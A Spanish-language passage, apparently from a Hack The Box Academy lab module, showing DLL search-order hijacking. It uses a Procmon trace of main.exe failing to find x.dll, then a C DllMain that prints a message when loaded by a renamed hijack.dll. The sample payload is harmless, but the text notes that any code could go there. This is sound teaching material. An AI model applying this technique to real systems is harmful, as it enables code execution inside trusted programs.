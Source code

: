 ![image](https://academy.hackthebox.com/storage/modules/67/procmon-not-found.png)

Como sabemos, `main.exe` busca en muchos lugares buscando `x.dll`, pero no la encuentra en ningún lado. La entrada en la que estamos particularmente interesados es:

```r
17:55:39,7848570	main.exe	37940	CreateFile	C:\Users\PandaSt0rm\Desktop\Hijack\x.dll	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

Donde busca cargar `x.dll` desde el directorio de la aplicación. Podemos aprovechar esto y cargar nuestro propio código, con muy poco contexto de lo que está buscando en `x.dll`.

```r
#include <stdio.h>
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        printf("Hijacked... Oops...\n");
    }
    break;
    case DLL_PROCESS_DETACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}
```

Este código define una función de punto de entrada de DLL llamada `DllMain` que es llamada automáticamente por Windows cuando la DLL se carga en un proceso. Cuando se carga la librería, simplemente imprimirá `Hijacked... Oops...` en la terminal, pero teóricamente podrías hacer cualquier cosa aquí.

Compílalo o usa la versión precompilada proporcionada. Renombra `hijack.dll` a `x.dll`, y ejecuta `main.exe`.

![image](https://academy.hackthebox.com/storage/modules/67/hijack.png)